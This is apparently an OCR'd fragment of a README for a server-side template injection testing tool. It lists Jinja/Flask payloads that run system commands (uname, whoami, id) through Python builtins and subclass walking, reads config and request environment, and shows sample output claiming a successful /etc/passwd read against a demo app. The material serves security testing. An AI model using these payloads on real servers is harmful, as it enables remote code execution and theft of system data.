 ```python
self.__init__.__globals__.__builtins__.__import__('os').popen('uname -a').read()
```

Tests system information gathering.

### 8. Python Subprocess

```python
self.__init__.__globals__.__builtins__.__import__('subprocess').check_output('whoami',shell=True)
```

Tests subprocess execution.

### 9. Class Hierarchy Inspection

```python
''.__class__.__mro__[1].__subclasses__()
```

Tests Python object introspection.

### 10. Config Access

```python
config.items()
```

Tests Flask configuration access.

### 11. Request Object Access

```python
request.environ
```

Tests request environment inspection.

### 12. Full Sandbox Escape

```python
''.__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['sys'].modules['os'].popen('id').read()
```

Tests complete sandbox escape.

## Expected Output

### Console Output Example

```text
[+] Starting basic SSTI vulnerability checks...

[+] Starting exploitation demonstration...

[*] Attempting: Read /etc/passwd (Severity: High)
[+] Exploit successful!
Result:

    <html>
    <head>
        <title>Template Injection App</title>
    </head>
    <body>
        <h1>Template Injection App</h1>
        <form method="POST" action="/render">
            <label for="input">Enter your input:</label>
            <input type="text" id="input" name="input">
```